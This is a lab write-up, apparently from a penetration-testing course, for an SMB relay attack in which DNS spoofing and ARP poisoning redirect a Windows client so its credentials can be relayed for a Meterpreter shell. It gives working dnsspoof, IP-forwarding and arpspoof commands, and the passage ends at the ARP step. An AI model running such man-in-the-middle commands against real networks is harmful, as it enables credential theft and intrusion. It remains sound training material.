 
Task

Launch an attack using the SMB Relay Exploit in a way that once the Client (`172.16.5.5`) issues a SMB connection to any hosts on the `.sportsfoo.com` domain it can be redirected to your Metasploit server, and then you can use its credentials to get a shell on the target machine (`172.16.5.10`).

This is a graphic that represents how this attack should work:
1. Client (Windows 7) issues a SMB connection to [`\\fileserver.sportsfoo.com\finance$`] at every 30 seconds or so.
2. The attacker machine intercepts this request and spoofs the IP address of `fileserver.sportsfoo.com`.
3. Then the Windows 7 system issues a SMB connection to [`\\172.16.5.101`] (attacker machine) instead of using the real IP of the `fileserver.sportsfoo.com`.
4. The SMB Relay exploit is already listening, receives the SMB connection, and relays the authentication to the target machine. The payload is a Windows Meterpreter shell.
5. Once the exploit authenticates on the target machine, a reverse meterpreter session is provided to the pentester.

---

**Step 1**.

`ip addr | grep inet`:
```
inet 127.0.0.1/8 scope host lo
inet6 ::1/128 scope host 
inet 192.168.0.3/24 brd 192.168.0.255 scope global adlab0
inet6 fe80::a00:27ff:fef9:76b6/64 scope link 
inet 172.16.5.101/24 brd 172.16.5.255 scope global eth1 ←
inet6 fe80::a00:27ff:fed4:ee5d/64 scope link 
```

**Step 2**.

In order to redirect the victim to our Metasploit system every time there is an SMB connection to any host in the domain: `sportsfoo.com`.
Create a file with fake dns entry with all subdomains of `sportsfoo.com` pointing to our attacker machine.

`echo "172.16.5.101 *.sportsfoo.com" > /root/Desktop/dns`.
`dnsspoof -i eth1 -f /root/Desktop/dns`:
```
dnsspoof: listening on eth1 [udp dst port 53 and not src 172.16.5.101]
```
These commands are used to perform the *DNS spoofing*, thereby manipulating DNS responses to redirect DNS traffic to a specific IP address, as specified in the `/root/Desktop/dns` file.

**Step 3**.

Activate the MiTM attack using the *ARP Spoofing* technique.

In order to perform an ARP Spoofing attack, we need to enable the *IP forwarding*.
`echo 1 > /proc/sys/net/ipv4/ip_forward`.

Our goal is to poison the traffic between our victim (`172.16.5.5`) and the default gateway (`172.16.5.1`).
In this way, we can manipulate the traffic using `dnsspoof`, which is already running.
`arpspoof -i eth1 -t 172.16.5.1 172.16.5.5`. This command is used to make the router (`172.16.5.1`) believe that the MAC address associated with the target (`172.16.5.5`) is that of the attacker. This allows the attacker to intercept or manipulate the traffic destined for the target.
`arpspoof -i eth1 -t 172.16.5.5 172.16.5.1`.
